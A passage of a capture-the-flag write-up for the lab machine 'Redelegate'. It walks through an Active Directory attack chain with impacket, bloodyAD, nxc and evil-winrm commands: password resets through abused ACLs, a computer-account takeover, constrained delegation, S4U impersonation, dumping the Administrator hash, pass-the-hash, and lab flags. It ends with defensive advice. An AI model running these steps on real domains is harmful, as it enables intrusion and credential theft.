

BloodHound shows Marie is a member of **Helpdesk**, which has **ForceChangePassword** over six principals including `Helen.Frost`:



Helen is a member of **IT**, and IT has **GenericAll** over `FS01.REDELEGATE.VL` — a later privilege-escalation path:



---
### 3.3 ForceChangePassword → Helen.Frost (User Flag)

Request a TGT for Marie and reset Helen’s password via Kerberos-authenticated `bloodyAD`:

```bash
impacket-getTGT redelegate.vl/marie.curie:'Fall2024!'
export KRB5CCNAME=marie.curie.ccache
bloodyAD -d redelegate.vl -k --host "dc.redelegate.vl" set password "HELEN.FROST" 'H4ck3d!'
```



Validate Helen across LDAP, SMB, and WinRM (`Pwn3d!` on WinRM):

```bash
nxc ldap redelegate.vl -u helen.frost -p 'H4ck3d!'
nxc smb redelegate.vl -u helen.frost -p 'H4ck3d!'
nxc winrm redelegate.vl -u helen.frost -p 'H4ck3d!'
```



Obtain an interactive shell and read the user flag:

```bash
evil-winrm -i redelegate.vl -u HELEN.FROST -p 'H4ck3d!'
whoami
type ../Desktop/user.txt
```



🏁 **User flag obtained** — `0c3372961811cd38bcbcd5faa3c1b6f6`

---
## 4. Privilege Escalation

### 4.1 Privilege Discovery on Helen

Inspect Helen’s groups and privileges from the WinRM session:

```powershell
whoami /all
```



Notable findings:

- Member of `REDELEGATE\IT` and `BUILTIN\Remote Management Users`
- **`SeEnableDelegationPrivilege`** enabled — can mark accounts as trusted for delegation

Combined with BloodHound’s IT → `GenericAll` → `FS01$` edge, this enables a constrained-delegation attack using the existing computer object (rather than creating a new machine account).

---
### 4.2 Takeover of FS01$ + Constrained Delegation Setup

Obtain Helen’s TGT, reset the `FS01$` machine-account password (GenericAll), verify SMB auth, then enable Protocol Transition and set the delegation target to CIFS on the DC:

```bash
impacket-getTGT redelegate.vl/helen.frost:'H4ck3d!'
export KRB5CCNAME=helen.frost.ccache
bloodyAD -d redelegate.vl -k --host "dc.redelegate.vl" set password "FS01$" 'H4ck3d@'
nxc smb redelegate.vl -u 'FS01$' -p 'H4ck3d@'
bloodyAD -d redelegate.vl -k --host "dc.redelegate.vl" add uac FS01$ -f TRUSTED_TO_AUTH_FOR_DELEGATION
bloodyAD -d redelegate.vl -k --host "dc.redelegate.vl" set object FS01$ msDS-AllowedToDelegateTo -v 'cifs/dc.redelegate.vl'
```



---
### 4.3 Constrained Delegation → Administrator

With `FS01$` trusted for constrained delegation to CIFS on the DC, request an S4U service ticket impersonating `dc`, then dump Administrator secrets:

```bash
unset KRB5CCNAME
impacket-getST 'redelegate.vl/FS01$:H4ck3d@' -spn cifs/dc.redelegate.vl -impersonate dc -dc-ip 10.129.234.50
export KRB5CCNAME="$(pwd)/dc@cifs_dc.redelegate.vl@REDELEGATE.VL.ccache"
impacket-secretsdump -k -no-pass -dc-ip 10.129.234.50 dc.redelegate.vl -just-dc-user Administrator
```



**Recovered Administrator NTLM:** `ec17f7a2a4d96e177bfd101b94ffc0a7`

Pass-the-Hash into WinRM as Administrator and read `root.txt`:

```bash
evil-winrm -i redelegate.vl -u Administrator -H ec17f7a2a4d96e177bfd101b94ffc0a7
whoami
type ../Desktop/root.txt
```



🏁 **Root flag obtained** — `2648308903c20bf8fa862faf684b9023`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Anonymous FTP → download `Shared.kdbx` + training/audit notes (`SeasonYear!` hint).
2. Unlock KeePass with `Fall2024!` → recover `SQLGuest` local MSSQL password.
3. RID-enumerate domain users via MSSQL → spray seasonal passwords → `Marie.Curie:Fall2024!`.
4. BloodHound: Helpdesk `ForceChangePassword` → reset `Helen.Frost` → WinRM + user flag.
5. Helen: `SeEnableDelegationPrivilege` + IT `GenericAll` on `FS01$` → reset machine password → constrained delegation to `cifs/dc.redelegate.vl`.
6. S4U as `dc` → `secretsdump` Administrator hash → Evil-WinRM → root flag.

---
## Defensive Recommendations

- Disable anonymous FTP; never store shared KeePass databases or audit/training notes on internet-facing shares.
- Enforce unique, non-seasonal passwords and monitor password-spray / lockout telemetry.
- Restrict MSSQL guest/local logins from performing SID/RID domain enumeration; avoid dual-purpose SQL on DCs where possible.
- Audit Helpdesk `ForceChangePassword` ACLs; require privileged-access workflows and logging for password resets.
- Treat `SeEnableDelegationPrivilege` and `GenericAll` on computer objects as tier-0: remove unnecessary grants, monitor `msDS-AllowedToDelegateTo` / UAC delegation flag changes, and alert on unusual S4U / DCSync activity.
